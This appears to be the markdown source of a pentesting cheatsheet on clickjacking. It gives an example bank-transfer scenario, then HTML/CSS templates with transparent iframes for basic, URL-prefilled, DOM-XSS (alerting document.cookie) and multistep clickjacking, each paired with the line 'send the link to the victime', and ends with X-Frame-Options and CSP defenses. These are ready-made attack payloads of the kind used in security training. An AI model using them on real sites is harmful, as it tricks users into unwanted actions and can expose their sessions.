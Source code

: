 ```yaml
---
title: "Clickjacking"
subtitle: ""
draft: false
author: "Hato0"
description: "Clickjacking cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20
tags: ["web", "penetest", "clickjacking", "phishing"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

Example (from imperva.com) : 
1.  The attacker creates an attractive page which promises to give the user a free trip to Tahiti.
2.  In the background the attacker checks if the user is logged into his banking site and if so, loads the screen that enables transfer of funds, using query parameters to insert the attacker’s bank details into the form.
3.  The bank transfer page is displayed in an invisible iframe above the free gift page, with the “Confirm Transfer” button exactly aligned over the “Receive Gift” button visible to the user.
4.  The user visits the page and clicks the “Book My Free Trip” button.
5.  In reality the user is clicking on the invisible iframe, and has clicked the “Confirm Transfer” button. Funds are transferred to the attacker.
6.  The user is redirected to a page with information about the free gift (not knowing what happened in the background).

![alt CJ example](https://lh3.googleusercontent.com/QsCvEJWxO4xG9x4pV8Cujs55AqqtPjADgSjlmu9WxI7C0brjrFXc_tlKft169KicxtePmgKnXa-ovKP3SwCNQrXzr4mwSaLEL_EI0I4dF85zPGV7cM3kVCqPcd-VIhyJ-whhkI0)

## Some examples

- Basic clickjacking with CSRF token protection

	1. Construct a page looking like : 
    {{< highlight html "lineNos=false" >}}
    <style>  
        iframe {  
        position:relative;  
        width:$width\_value;  
        height: $height\_value;  
        opacity: $opacity;  // Set opacity to make the button transparent
        z-index: 2;  
        }  
        div {  
        position:absolute;  
        top:$top\_value;  // Change this to fully cover the baiting action
        left:$side\_value;  // Change this to fully cover the baiting action
        z-index: 1;  
        }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url"></iframe>
    {{< /highlight >}}
	
	2. Send the link to the victime and pray


- Clickjacking with form input data prefilled from a URL parameter

	1. Construct a page looking like : 
		{{< highlight html "lineNos=false" >}}
		<style>  
		   iframe {  
			   position:relative;  
			   width:$width_value;  
			   height: $height_value;  
			   opacity: $opacity;  
			   z-index: 2;  
		   }  
		   div {  
			   position:absolute;  
			   top:$top_value;  
			   left:$side_value;  
			   z-index: 1;  
		   }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url?email=hacker@attacker-website.com"></iframe>
		{{< /highlight >}}

	2. Send the link to the victime and pray


- Exploiting clickjacking vulnerability to trigger DOM-based XSS

	1. Construct a page looking like:
	
	{{< highlight html "lineNos=false" >}}
	<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 div {  
	 position:absolute;  
	 top:$top\_value;  
	 left:$side\_value;  
	 z-index: 1;  
	 }  
	</style>  
	<div>Test me</div>  
	<iframe  
	src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
	{{< /highlight >}}
	
	2. Send the link to the victime and pray
	
- Multistep clickjacking
    
    Just include as much button as you need
{{< highlight html "lineNos=false" >}}
<style>  
    iframe {  
    position:relative;  
    width:$width\_value;  
    height: $height\_value;  
    opacity: $opacity;  
    z-index: 2;  
    }  
    .firstClick, .secondClick {  
    position:absolute;  
    top:$top\_value1;  
    left:$side\_value1;  
    z-index: 1;  
    }  
    .secondClick {  
    top:$top\_value2;  
    left:$side\_value2;  
    }  
</style>  
<div class="firstClick">Test me first</div>  
<div class="secondClick">Test me next</div>  
<iframe src="$url"></iframe>
{{< /highlight >}}



## How to prevent them 

Two main option are in use to prevend them: 

- X-frame-options: 
    - deny : Make the site impossible to include into ifram balise
    - sameorigin: Make ifram only useable on the same website
    - allow-from: Specify URL that can include the website iframe 
- CSP: You can use a lot of CSP option to restrict page inclusion